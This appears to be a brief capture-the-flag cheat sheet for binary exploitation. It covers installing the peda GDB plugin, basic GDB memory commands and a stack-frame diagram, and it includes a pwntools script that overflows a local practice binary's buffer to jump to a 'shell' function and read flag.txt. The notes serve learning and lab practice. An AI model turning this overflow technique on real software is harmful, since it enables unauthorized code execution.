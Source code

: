 # peda
```sh
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
echo "DONE! debug your program with gdb and enjoy"
```
# pwntools
```python
from pwn import *

context.binary = "./pwn1"

p = process()
p.sendline(b"A" * 128 + b"a" * 12 + p32(context.binary.functions["shell"].address))
p.sendline(b"cat flag.txt")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```
# GDB commands
- `r` run
- `c` continue
- `b <function_name>` breakpoint
- `file <file>` load file
- `x/Nuf expr`: examine memory at address expr
  - N how many units to display
  - u unit size; one of b(individual bytes), h (halfwords = 2B), w (words = 4B), g (giant words = 8B)
  - f printing format (any print format) or s (s null-terminated string) i (machine instructions)
Ex: `x/168x $sp' (4 byte chunks by default) $sp = stack pointer, $rip = instruction pointer

# Stack representation
```
+---------------+ <- SP
|     locals    |
+---------------+ <- BP
|       BP      |
+---------------+
|    ret add    |
+---------------+
```
